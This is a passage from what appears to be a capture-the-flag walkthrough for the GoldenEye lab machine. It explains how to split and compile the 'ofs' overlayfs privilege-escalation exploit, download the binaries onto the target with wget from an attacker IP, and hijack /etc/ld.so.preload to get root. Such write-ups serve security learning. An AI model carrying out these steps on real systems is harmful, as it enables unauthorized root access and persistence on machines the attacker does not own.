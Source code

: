 Here's the plan.

_On the attacking machine, do the following:_

1. Remove the line starting with `#define LIB "#include..."`, clean it up, and save it as `ofs-lib.c`
2. Remove these lines:
   ```
   lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
   write(lib,LIB,strlen(LIB));
   close(lib);
   lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
   if(lib != 0) {
       fprintf(stderr,"couldn't create dynamic library\n");
       exit(-1);
   }
   write(fd,"/tmp/ofs-lib.so\n",16);
   ```
3. Save what's left as `ofs.c`.
4. Compile `ofs.c` and `ofs-lib.c` separately.

Compiling `ofs.c` is easy.

```
# gcc -o ofs ofs.c
```

Compiling `ofs-lib.c` is slightly more difficult.

```
# gcc -fPIC -shared -o ofs-lib.so ofs-lib.c -ldl -w
```

_On the remote shell, do the following:_

1. `$ wget -O /tmp/ofs 192.168.30.128/ofs`
2. `$ chmod +x /tmp/ofs`
3. `$ wget -O /tmp/ofs-lib.so 192.168.30.128/ofs-lib.so`
4. Run `/tmp/ofs` to create `/etc/ld.so.preload`. Hit Enter to ignore the password prompt.
4. `$ echo /tmp/ofs-lib.so > /etc/ld.so.preload`
5. `$ /tmp/ofs`

![5f78bd46.png](/assets/images/posts/goldeneye-1-walkthrough/5f78bd46.png)

### To the GoldenEye Access Codes
